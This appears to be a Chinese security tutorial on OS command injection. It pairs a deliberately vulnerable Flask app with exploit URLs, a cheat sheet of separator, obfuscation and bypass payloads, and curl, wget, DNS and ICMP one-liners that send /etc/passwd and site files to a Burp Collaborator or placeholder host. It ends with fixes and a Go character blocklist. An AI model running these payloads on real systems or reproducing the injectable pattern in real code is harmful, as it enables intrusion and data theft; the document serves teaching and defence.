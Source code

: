 ## 0x01 命令执行漏洞原理

### 1.1 简介

​	Web应用程序在实现某些高级功能时可能需要调用外部程序来实现，如果引入的外部程序本身存在安全隐患或对传入的参数进行拼接操作，可能会导致程序出现安全问题。

## 0x02 命令执行漏洞场景

### 2.1 调用外部命令

#### 2.1.1 漏洞代码

```
# -*- coding: utf-8 -*-

import subprocess
from flask import Flask, request, send_file
app = Flask(__name__)

@app.route("/", methods=['GET','POST'])
def index():
    url = request.args.get('url')
    argstr = request.args.get('argstr')
    cmdstr = "wkhtmltoimage.exe {} {} image.png".format(argstr, url)
    rsp = subprocess.Popen(cmdstr, shell=True)
    rsp.wait()
    return send_file('image.png', mimetype='image/gif')
    
if __name__ == '__main__':

    app.run(debug = True)
```

#### 2.1.2 漏洞利用

​	如下图所示，通过命令连接符连接多个命令，成功写入123.txt。

```
http://127.0.0.1:5000/?argstr=||echo%20123%20%3E%20c:\123.txt||&url=
http://127.0.0.1:5000/?argstr=&url=||echo%20123%20%3E%20c:\123.txt
```

### 2.2 Bypass

#### 2.2.1 命令拼接

| 连接符     | 示例                                                         |
| ---------- | ------------------------------------------------------------ |
| \|         | ping www.xx.com -c 1\|cat /etc/passwd;                       |
| \|\|       | ping www.xx.com -c 1\|\|cat /etc/passwd;                     |
| &          | ping www.xx.com -c 1&cat /etc/passwd;                        |
| &&         | ping www.xx.com -c 1&&cat /etc/passwd;                       |
| ;          | ping www.xx.com -c 1;cat /etc/passwd;                        |
| $(sleep 5) | ping www.xx.com -c $(sleep 5);                               |
| %0d%0a     | ping www.xx.com -c 1%0d%0acat /etc/passwd;                   |
| ../        | cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../windows/system32/ipconfig.exe" |

#### 2.2.2 命令混淆

- Linux

```
uname${IFS}-a
uname$IFS$9-a
uname%09-a

a=l;b=s;$a$b -la
ca\t /etc/passwd

echo 'ls /'|base64
echo bHMgLwo=|base64 -d
```

- Windows

```
(who"a"mi)
who"a"^mi

set a=w
set b=hoami
%a%%b%
```

#### 2.2.3 命令回传

- windows

```
telnet xx.xx.xx.xx:xxxx < c:\win.ini
```

```
net use h: \\xxx.xxx.xxx.xxx\web /user:administrator 123456 && copy index.php h:\index.php
```

- linux

```
curl -X POST -F xx=@index.php http://s4xv9zxsbg6xb13gwx0a68zai1orcg.burpcollaborator.net
cat /etc/passwd | curl –F ":data=@-" http://xx.xx.xx.xxx:xxxx/test.txt
curl –T /etc/passwd ftp://xxx.xxx.xxx.xxx –-user {username}:{password}
```

```
wget --header="evil:`cat /etc/passwd | xargs echo –n`" http://xxx.xxx.xxx:xxxx
wget --post-data exfil=`cat /etc/passwd`&b=1 http://xxx.xxx.xxx.xxx:xxxx
wget --post-file index.php http://xxx.xxx.xxx.xxx:xxxx
```

```
cat /etc/passwd | while read exfil; do host $exfil.contextis.com 192.168.107.135; done
```

```
ping `cat /etc/passwd|wc -c`.baidu.com	# 计算passwd内容字节长度
ping `cat /etc/passwd|base64|cut -c 1-20`.baidu.com	# 截取字符串
```

```
cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done	# ICMP回显
```

```
$(sleep $(cat index.php | wc -c))	# 计算index.php内容字符长度
$(sleep $(cat index.php | cut -c 1 | tr a 5))	# 取index.php文件中的第一个字符,如果是'a',则转换为5
```

```
for /F %x in ('whoami') do start s4xv9zxsbg6xb13gwx0a68zai1orcg.burpcollaborator.net/[%x].jpg
```

## 0x03 命令执行漏洞修复

### 3.1 白名单进行过滤

​	可通过白名单限制字符类型，仅允许字符、数字、下划线，或过滤转义相关字符。

### 3.2 避免拼接操作系统命令

​	避免通过"cmd"、“bash”、“sh”等命令创建shell后拼接外部数据来执行操作系统命令。

```
func checkIllegal(cmdName string) bool {
	if strings.Contains(cmdName, "&") || strings.Contains(cmdName, "|") || strings.Contains(cmdName, ";") ||
		strings.Contains(cmdName, "$") || strings.Contains(cmdName, "'") || strings.Contains(cmdName, "`") ||
		strings.Contains(cmdName, "(") || strings.Contains(cmdName, ")") || strings.Contains(cmdName, "\"") {
		return true
	}
	return false
}
```



